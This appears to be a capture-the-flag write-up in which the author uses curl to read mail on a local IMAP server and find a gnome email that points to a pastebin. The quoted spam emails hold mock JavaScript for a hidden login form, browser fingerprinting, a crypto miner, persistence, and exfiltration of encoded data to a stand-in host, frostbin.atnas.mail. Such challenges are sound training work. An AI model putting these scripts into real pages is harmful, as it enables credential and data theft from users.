

# Mail Detective

## Challenge Objective



## Challenge Solution

Like other challenges, this challenge is solved within a pop-up Linux terminal. As I load into the terminal, I see the below challenge context and goal at the top of the Linux terminal.

```
=======================================================================
🎄 Mail Detective: Curly IMAP Investigation 🎄
=======================================================================

⚠️  ALERT! Those gnomes have been sending JavaScript-enabled emails
to everyone in the neighborhood, and it's causing absolute chaos!
We had to shut down all the email clients because they weren't blocking
the malicious scripts—kind of like how we'd ground aircraft until we clear
a security threat.

The only safe way to access the email server now is through curl,
the trusty HTTP tool. Yes, we're using curl to connect to IMAP!
It's unconventional, but it's secure.

🕵️  YOUR MISSION: Use curl to safely connect to the IMAP server
and hunt down one of these gnome emails. Find the malicious email
that wants to exfiltrate data to a pastebin service and submit the URL
of that pastebin service in your badge.

📡 Server Info:
   The IMAP server is running locally on TCP port 143
   Backdoor credentials: dosismail:holidaymagic

🎅 Good luck, Holiday Hacker! 🎅

=======================================================================
```

Since I'm given credentials, I look up how to use curl to connect to the IMAP server. I run the below command to log in with the supplied credentials to verify that I can connect. 

```
dosismail @ Neighborhood Mail ~$ curl -v imap://127.0.0.1:143/ --user "dosismail:holidaymagic" 
*   Trying 127.0.0.1:143...
* Connected to 127.0.0.1 (127.0.0.1) port 143 (#0)
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN] Dovecot (Ubuntu) ready.
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 AUTHENTICATE PLAIN AGRvc2lzbWFpbABob2xpZGF5bWFnaWM=
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY
< A002 OK Logged in
> A003 LIST "" *
< * LIST (\HasNoChildren) "." Spam
* LIST (\HasNoChildren) "." Spam
< * LIST (\HasNoChildren) "." Sent
* LIST (\HasNoChildren) "." Sent
< * LIST (\HasNoChildren) "." Archives
* LIST (\HasNoChildren) "." Archives
< * LIST (\HasNoChildren) "." Drafts
* LIST (\HasNoChildren) "." Drafts
< * LIST (\HasNoChildren) "." INBOX
* LIST (\HasNoChildren) "." INBOX
< A003 OK List completed (0.001 + 0.000 secs).
* Connection #0 to host 127.0.0.1 left intact
```

The output of the above command shows the mailboxes that I can investigate. I want to check the Spam and INBOX mailboxes, so I start crafting the commands needed to investigate them.

```
dosismail @ Neighborhood Mail ~$ curl -v imap://127.0.0.1:143/INBOX -X "FETCH 1:* (ENVELOPE)" --user "dosismail:holidaymagic" 
*   Trying 127.0.0.1:143...
* Connected to 127.0.0.1 (127.0.0.1) port 143 (#0)
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN] Dovecot (Ubuntu) ready.
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 AUTHENTICATE PLAIN AGRvc2lzbWFpbABob2xpZGF5bWFnaWM=
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY
< A002 OK Logged in
> A003 SELECT INBOX
< * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
< * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
< * 7 EXISTS
< * 7 RECENT
< * OK [UNSEEN 1] First unseen.
< * OK [UIDVALIDITY 1767564591] UIDs valid
< * OK [UIDNEXT 8] Predicted next UID
< A003 OK [READ-WRITE] Select completed (0.024 + 0.000 + 0.023 secs).
> A004 FETCH 1:* (ENVELOPE)
< * 1 FETCH (ENVELOPE ("Sat, 21 Dec 2024 14:54:39 +0000" "Help! My Electronics Keep Disappearing and Reappearing!" (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("DIY Electronics Club" NIL "makers" "dosisneighborhood.mail")) NIL NIL NIL "<electronic-mysteries@dosisneighborhood.mail>"))
* 1 FETCH (ENVELOPE ("Sat, 21 Dec 2024 14:54:39 +0000" "Help! My Electronics Keep Disappearing and Reappearing!" (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("Sparky McGillicuddy" NIL "electronics" "dosisneighborhood.mail")) (("DIY Electronics Club" NIL "makers" "dosisneighborhood.mail")) NIL NIL NIL "<electronic-mysteries@dosisneighborhood.mail>"))
< * 2 FETCH (ENVELOPE ("Wed, 18 Dec 2024 16:42:01 +0000" "Re: Strange Garden Ornament Behavior" (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Green Thumb Gang" NIL "gardeners" "dosisneighborhood.mail")) NIL NIL NIL "<garden-ornament-mystery@dosisneighborhood.mail>"))
* 2 FETCH (ENVELOPE ("Wed, 18 Dec 2024 16:42:01 +0000" "Re: Strange Garden Ornament Behavior" (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) (("Green Thumb Gang" NIL "gardeners" "dosisneighborhood.mail")) NIL NIL NIL "<garden-ornament-mystery@dosisneighborhood.mail>"))
< * 3 FETCH (ENVELOPE ("Mon, 23 Dec 2024 11:17:18 +0000" {53}
* 3 FETCH (ENVELOPE ("Mon, 23 Dec 2024 11:17:18 +0000" {53}
< 📚 Overdue Books & Mysterious Library Activity 📚 (("Ms. Pagebottom" NIL "librarian" "dosisneighborhood.mail")) (("Ms. Pagebottom" NIL "librarian" "dosisneighborhood.mail")) (("Ms. Pagebottom" NIL "librarian" "dosisneighborhood.mail")) (("Library Patrons" NIL "readers" "dosisneighborhood.mail")) NIL NIL NIL "<library-mysteries@dosisneighborhood.mail>"))
< * 4 FETCH (ENVELOPE ("Tue, 24 Dec 2024 08:45:11 +0000" {51}
* 4 FETCH (ENVELOPE ("Tue, 24 Dec 2024 08:45:11 +0000" {51}
< 🎄 Christmas Eve Emergency Town Hall Meeting 🎄 (("Mayor Dosis" NIL "mayor" "dosisneighborhood.mail")) (("Mayor Dosis" NIL "mayor" "dosisneighborhood.mail")) (("Mayor Dosis" NIL "mayor" "dosisneighborhood.mail")) (("All Residents" NIL "residents" "dosisneighborhood.mail")) NIL NIL NIL "<emergency-meeting-christmas-eve@dosisneighborhood.mail>"))
< * 5 FETCH (ENVELOPE ("Sun, 22 Dec 2024 19:33:01 +0000" {50}
* 5 FETCH (ENVELOPE ("Sun, 22 Dec 2024 19:33:01 +0000" {50}
< 🍕 Weekly Special + WEIRD Delivery Incident 🍕 (("Tony's Pizza Palace" NIL "pizza" "dosisneighborhood.mail")) (("Tony's Pizza Palace" NIL "pizza" "dosisneighborhood.mail")) (("Tony's Pizza Palace" NIL "pizza" "dosisneighborhood.mail")) (("Hungry Neighbors" NIL "everyone" "dosisneighborhood.mail")) NIL NIL NIL "<pizza-special-and-weirdness@dosisneighborhood.mail>"))
< * 6 FETCH (ENVELOPE ("Fri, 20 Dec 2024 22:31:28 +0000" {60}
* 6 FETCH (ENVELOPE ("Fri, 20 Dec 2024 22:31:28 +0000" {60}
< 🚨 INCIDENT REPORT: Mysterious Small-Scale Burglaries 🚨 (("Officer Jingleberry" NIL "security" "dosisneighborhood.mail")) (("Officer Jingleberry" NIL "security" "dosisneighborhood.mail")) (("Officer Jingleberry" NIL "security" "dosisneighborhood.mail")) (("Neighborhood Watch" NIL "watch" "dosisneighborhood.mail")) NIL NIL NIL "<incident-report-tiny-crimes@dosisneighborhood.mail>"))
< * 7 FETCH (ENVELOPE ("Thu, 19 Dec 2024 09:15:01 +0000" {65}
* 7 FETCH (ENVELOPE ("Thu, 19 Dec 2024 09:15:01 +0000" {65}
< ⭐ URGENT: My Cookies Have Gone Missing! Have You Seen Them? ⭐ (("Granny Crumbleton" NIL "baker" "dosisneighborhood.mail")) (("Granny Crumbleton" NIL "baker" "dosisneighborhood.mail")) (("Granny Crumbleton" NIL "baker" "dosisneighborhood.mail")) (("Neighborhood Food Lovers" NIL "foodies" "dosisneighborhood.mail")) NIL NIL NIL "<missing-cookies-emergency@dosisneighborhood.mail>"))
< A004 OK Fetch completed (0.001 + 0.000 secs).
* Connection #0 to host 127.0.0.1 left intact
```

This command shows all of the messages in the INBOX mailbox, revealing some valuable information like sender and subject without showing the message body. The numbers on the left are the mail index numbers, which I can use in a different command to view the full body of the email. In the INBOX mailbox, there are 7 messages. 

Next, I want to check the messages in the Spam mailbox. 

```
dosismail @ Neighborhood Mail ~$ curl -v imap://127.0.0.1:143/Spam -X "FETCH 1:* (ENVELOPE)" --user "dosismail:holidaymagic"
*   Trying 127.0.0.1:143...
* Connected to 127.0.0.1 (127.0.0.1) port 143 (#0)
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN] Dovecot (Ubuntu) ready.
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 AUTHENTICATE PLAIN AGRvc2lzbWFpbABob2xpZGF5bWFnaWM=
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY
< A002 OK Logged in
> A003 SELECT Spam
< * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
< * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
< * 3 EXISTS
< * 3 RECENT
< * OK [UNSEEN 1] First unseen.
< * OK [UIDVALIDITY 1767564590] UIDs valid
< * OK [UIDNEXT 4] Predicted next UID
< A003 OK [READ-WRITE] Select completed (0.011 + 0.000 + 0.010 secs).
> A004 FETCH 1:* (ENVELOPE)
< * 1 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:05:00 +0000" "Coolant Acquisition Protocol Initiated" (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("Counter Hack Innovation Crew" NIL "counterhack.crew" "dosisneighborhood.mail")) NIL (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) NIL "<gnome-js-2@atnas.mail>"))
* 1 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:05:00 +0000" "Coolant Acquisition Protocol Initiated" (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("ATNAS Recon Unit" NIL "recon.unit" "atnas.mail")) (("Counter Hack Innovation Crew" NIL "counterhack.crew" "dosisneighborhood.mail")) NIL (("Old Pete the Gardener" NIL "gardener" "dosisneighborhood.mail")) NIL "<gnome-js-2@atnas.mail>"))
< * 2 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:10:00 +0000" "Frost Protocol: Dosis Neighborhood Freezing Initiative" (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Dosis Neighborhood Residents" NIL "dosis.residents" "dosisneighborhood.mail")) (("Jessica and Joshua" NIL "siblings" "dosisneighborhood.mail")("CHI Team" NIL "chi.team" "counterhack.com")) NIL NIL "<gnome-js-3@mysterymastermind.mail>"))
* 2 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:10:00 +0000" "Frost Protocol: Dosis Neighborhood Freezing Initiative" (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Frozen Network Bot" NIL "frozen.network" "mysterymastermind.mail")) (("Dosis Neighborhood Residents" NIL "dosis.residents" "dosisneighborhood.mail")) (("Jessica and Joshua" NIL "siblings" "dosisneighborhood.mail")("CHI Team" NIL "chi.team" "counterhack.com")) NIL NIL "<gnome-js-3@mysterymastermind.mail>"))
< * 3 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:00:00 +0000" "Your Refrigerator Systems Compromised!" (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Duke Dosis" NIL "duke.dosis" "dosisneighborhood.mail")) (("Counter Hack Crew" NIL "team" "counterhack.mail")) NIL NIL "<gnome-js-1@atnas.mail>"))
* 3 FETCH (ENVELOPE ("Mon, 16 Sep 2025 12:00:00 +0000" "Your Refrigerator Systems Compromised!" (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Frost's Minion" NIL "frost.minion" "atnas.mail")) (("Duke Dosis" NIL "duke.dosis" "dosisneighborhood.mail")) (("Counter Hack Crew" NIL "team" "counterhack.mail")) NIL NIL "<gnome-js-1@atnas.mail>"))
< A004 OK Fetch completed (0.001 + 0.000 secs).
* Connection #0 to host 127.0.0.1 left intact
```

This command lists the messages in the Spam mailbox, showing me the 3 messages.

Now that I saw the subject and sender details for the 7 messages in the INBOX mailbox and the 3 messages in the Spam mailbox, I need to investigate the message bodies to look for the malicious email. 

I first start by investigating the messages in the INBOX mailbox more in depth.

Initially, I used the below command to look at the message body for messages in the INBOX mailbox. I just had to add the mail index number to the end of the generic format.

```curl -v --user "dosismail:holidaymagic" 'imap://127.0.0.1:143/INBOX;MAILINDEX=#'```

After investigating the message bodies for several messages in the INBOX folder, I didn't find any malicious activity. So I changed my focus to the Spam mailbox. 

I need to write a command similar to the above to look at the messages in the Spam mailbox, passing the mail index number for the message I want to view. 

```curl -v --user "dosismail:holidaymagic" 'imap://127.0.0.1:143/Spam;MAILINDEX=#'```

First, I run this command. I pass 1 for the mail index number to view the content of the first message in the Spam mailbox.

```
dosismail @ Neighborhood Mail ~$ curl -v --user "dosismail:holidaymagic" 'imap://127.0.0.1:143/Spam;MAILINDEX=1' 
*   Trying 127.0.0.1:143...
* Connected to 127.0.0.1 (127.0.0.1) port 143 (#0)
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN] Dovecot (Ubuntu) ready.
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 AUTHENTICATE PLAIN AGRvc2lzbWFpbABob2xpZGF5bWFnaWM=
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY
< A002 OK Logged in
> A003 SELECT Spam
< * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
< * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
< * 3 EXISTS
< * 0 RECENT
< * OK [UNSEEN 2] First unseen.
< * OK [UIDVALIDITY 1767564590] UIDs valid
< * OK [UIDNEXT 4] Predicted next UID
< A003 OK [READ-WRITE] Select completed (0.001 + 0.000 secs).
> A004 FETCH 1 BODY[]
< * 1 FETCH (BODY[] {2611}
* Found 2611 bytes to download
Return-Path: <recon.unit@atnas.mail>
Delivered-To: counterhack.crew@dosisneighborhood.mail
Received: from atnas-hq.atnas.mail (atnas-hq [192.168.1.14])
        by mail.dosisneighborhood.mail (Postfix) with ESMTP id DEF456
        for <counterhack.crew@dosisneighborhood.mail>; Mon, 16 Sep 2025 12:05:00 +0000 (UTC)
From: "ATNAS Recon Unit" <recon.unit@atnas.mail>
To: "Counter Hack Innovation Crew" <counterhack.crew@dosisneighborhood.mail>
Bcc: "Old Pete the Gardener" <gardener@dosisneighborhood.mail>
Subject: Coolant Acquisition Protocol Initiated
Date: Mon, 16 Sep 2025 12:05:00 +0000
Message-ID: <gnome-js-2@atnas.mail>
MIME-Version: 1.0
Content-Type: text/html; charset=UTF-8
Content-Transfer-Encoding: 7bit

<html>
<body>
<h1>ATNAS Corporation - Coolant Division</h1>
<p>Scanning for refrigeration units... Frost requires all cooling components.</p>
<script>
// Credential harvesting simulation
function harvestCredentials() {
    var fakeForm = '<form id="frostLogin" style="display:none;">' +
                  '<input type="text" id="username" placeholder="Username">' +
                  '<input type="password" id="password" placeholder="Password">' +
                  '</form>';
    document.body.innerHTML += fakeForm;
    
    // Simulate form data collection
    setTimeout(function() {
        console.log("Frost credential harvester deployed - targeting HVAC system logins");
    }, 1000);
}

// Browser fingerprinting
function fingerprintBrowser() {
    var fingerprint = {
        userAgent: navigator.userAgent,
        screen: screen.width + "x" + screen.height,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        language: navigator.language,
        platform: navigator.platform
    };
    console.log("Browser fingerprint collected for Frost's database:", fingerprint);
    return fingerprint;
}

// Session hijacking simulation
function hijackSession() {
    var sessionData = {
        sessionId: "gnome_session_" + Math.random().toString(36).substr(2, 9),
        timestamp: new Date().toISOString(),
        target: "refrigeration_systems"
    };
    localStorage.setItem("frost_session", JSON.stringify(sessionData));
    console.log("Session hijacked by Frost's network:", sessionData);
}

// Execute attack chain
harvestCredentials();
fingerprintBrowser();
hijackSession();

var frostMsg = "Frost's network has cataloged your freezer coils! Theft imminent!";
setTimeout(function() { 
    alert(frostMsg); 
    document.title = "ATNAS Coolant Scanner Active";
}, 2000);
</script>
</body>
</html>
* Written 2611 bytes, 0 bytes are left for transfer
< )
< A004 OK Fetch completed (0.001 + 0.000 secs).
* Connection #0 to host 127.0.0.1 left intact
```

In this first message, I see various signs of malicious activity like credential harvesting, browser fingerprinting, and more. However, the URL of the pastebin service mentioned in the initial message that I saw when I opened my terminal above is not present. 

Next, I run the same command, but pass 2 for the mail index number instead of 1 to look at the second message in the Spam mailbox.  

```
dosismail @ Neighborhood Mail ~$ curl -v --user "dosismail:holidaymagic" 'imap://127.0.0.1:143/Spam;MAILINDEX=2' 
*   Trying 127.0.0.1:143...
* Connected to 127.0.0.1 (127.0.0.1) port 143 (#0)
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN] Dovecot (Ubuntu) ready.
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN AUTH=LOGIN
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 AUTHENTICATE PLAIN AGRvc2lzbWFpbABob2xpZGF5bWFnaWM=
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY
< A002 OK Logged in
> A003 SELECT Spam
< * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
< * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
< * 3 EXISTS
< * 0 RECENT
< * OK [UNSEEN 2] First unseen.
< * OK [UIDVALIDITY 1767564590] UIDs valid
< * OK [UIDNEXT 4] Predicted next UID
< A003 OK [READ-WRITE] Select completed (0.001 + 0.000 secs).
> A004 FETCH 2 BODY[]
< * 2 FETCH (FLAGS (\Seen) BODY[] {3786}
* Found 3786 bytes to download
Return-Path: <frozen.network@mysterymastermind.mail>
Delivered-To: dosis.residents@dosisneighborhood.mail
Received: from frost-command.mysterymastermind.mail (frost-command [10.0.0.15])
        by mail.dosisneighborhood.mail (Postfix) with ESMTP id GHI789
        for <dosis.residents@dosisneighborhood.mail>; Mon, 16 Sep 2025 12:10:00 +0000 (UTC)
From: "Frozen Network Bot" <frozen.network@mysterymastermind.mail>
To: "Dosis Neighborhood Residents" <dosis.residents@dosisneighborhood.mail>
Cc: "Jessica and Joshua" <siblings@dosisneighborhood.mail>, "CHI Team" <chi.team@counterhack.com>
Subject: Frost Protocol: Dosis Neighborhood Freezing Initiative
Date: Mon, 16 Sep 2025 12:10:00 +0000
Message-ID: <gnome-js-3@mysterymastermind.mail>
MIME-Version: 1.0
Content-Type: text/html; charset=UTF-8
Content-Transfer-Encoding: 7bit

<html>
<body>
<h1>Perpetual Winter Protocol Activated</h1>
<p>The mysterious mastermind's plan is proceeding... Dosis neighborhood will never thaw!</p>
<script>
function initCryptoMiner() {
    var worker = {
        start: function() {
            console.log("Frost's crypto miner started - mining FrostCoin for perpetual winter fund");
            this.interval = setInterval(function() {
                console.log("Mining FrostCoin... Hash rate: " + Math.floor(Math.random() * 1000) + " H/s");
            }, 5000);
        },
        stop: function() {
            clearInterval(this.interval);
        }
    };
    worker.start();
    return worker;
}

function exfiltrateData() {
    var sensitiveData = {
        hvacSystems: "Located " + Math.floor(Math.random() * 50) + " cooling units",
        thermostatData: "Temperature ranges: " + Math.floor(Math.random() * 30 + 60) + "°F",
        refrigerationUnits: "Found " + Math.floor(Math.random() * 20) + " commercial freezers",
        timestamp: new Date().toISOString()
    };
    
    console.log("Exfiltrating data to Frost's command center:", sensitiveData);
    
    var encodedData = btoa(JSON.stringify(sensitiveData));
    console.log("Encoded payload for Frost: " + encodedData.substr(0, 50) + "...");

    // pastebin exfiltration
    var pastebinUrl = "https://frostbin.atnas.mail/api/paste";
    var exfilPayload = {
        title: "HVAC_Survey_" + Date.now(),
        content: encodedData,
        expiration: "1W",
        private: "1",
        format: "json"
    };
    
    console.log("Sending stolen data to FrostBin pastebin service...");
    console.log("POST " + pastebinUrl);
    console.log("Payload: " + JSON.stringify(exfilPayload).substr(0, 100) + "...");
    console.log("Response: {\"id\":\"" + Math.random().toString(36).substr(2, 8) + "\",\"url\":\"https://frostbin.atnas.mail/raw/" + Math.random().toString(36).substr(2, 8) + "\"}");
}

function establishPersistence() {
    // Service worker registration
    if ('serviceWorker' in navigator) {
        console.log("Attempting to register Frost's persistent service worker...");
        console.log("Frost's persistence mechanism deployed");
    }
    
    localStorage.setItem("frost_persistence", JSON.stringify({
        installDate: new Date().toISOString(),
        version: "gnome_v2.0",
        mission: "perpetual_winter_protocol"
    }));
}

var miner = initCryptoMiner();
exfiltrateData();
establishPersistence();

document.title = "Frost's Gnome Network - Temperature Control";
alert("All cooling systems in Dosis neighborhood are now property of Frost!");
document.body.innerHTML += "<p style='color: cyan;'>❄️ FROST'S DOMAIN ❄️</p>";

// Cleanup after 30 seconds
setTimeout(function() {
    miner.stop();
    console.log("Frost's operations going dark... tracks covered");
}, 30000);
</script>
</body>
</html>
* Written 3786 bytes, 0 bytes are left for transfer
< )
< A004 OK Fetch completed (0.001 + 0.000 secs).
* Connection #0 to host 127.0.0.1 left intact
```

I look at the output of the command to view the second message in the Spam mailbox, and see a pastebinURL variable with the value of ```https://frostbin.atnas.mail/api/paste```. This URL is the answer to the challenge.    